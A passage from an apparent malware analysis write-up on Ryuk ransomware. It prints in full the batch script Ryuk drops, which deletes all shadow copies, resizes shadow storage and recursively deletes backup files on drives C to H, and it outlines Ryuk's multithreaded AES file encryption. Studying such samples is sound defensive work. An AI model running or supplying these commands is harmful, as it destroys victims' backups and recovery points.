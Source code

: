 Ryuk drops a batch script at `C:\Users\Public\window.bat` which deletes all shadow copies and possible backups, then the script deletes itself.

```bat
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
del /s /f /q d:\*.VHD d:\*.bac d:\*.bak d:\*.wbcat d:\*.bkf d:\Backup*.* d:\backup*.* d:\*.set d:\*.win d:\*.dsk
del /s /f /q e:\*.VHD e:\*.bac e:\*.bak e:\*.wbcat e:\*.bkf e:\Backup*.* e:\backup*.* e:\*.set e:\*.win e:\*.dsk
del /s /f /q f:\*.VHD f:\*.bac f:\*.bak f:\*.wbcat f:\*.bkf f:\Backup*.* f:\backup*.* f:\*.set f:\*.win f:\*.dsk
del /s /f /q g:\*.VHD g:\*.bac g:\*.bak g:\*.wbcat g:\*.bkf g:\Backup*.* g:\backup*.* g:\*.set g:\*.win g:\*.dsk
del /s /f /q h:\*.VHD h:\*.bac h:\*.bak h:\*.wbcat h:\*.bkf h:\Backup*.* h:\backup*.* h:\*.set h:\*.win h:\*.dsk
del %0
```

## The Encryption Process

Ryuk uses a multi threading approach for the encryption process, it creates a new thread for each file it encrypts which makes it very fast.

It starts enumerating files using `FindFirstFileW()` and `FindNextFileW()` then it passes each file name to a new encryption thread. Note that Ryuk avoids encrypting these file extensions:

```
.dll
.lnk
.hrmlog
.ini
.exe
```

Each encryption thread starts by generating a random 256 AES encryption key using `CryptGenKey()`, Ryuk utilizes the WindowsCrypto API for the encryption.

[![16](/assets/images/malware-analysis/ryuk-ransomware/16.png)](/assets/images/malware-analysis/ryuk-ransomware/16.png)
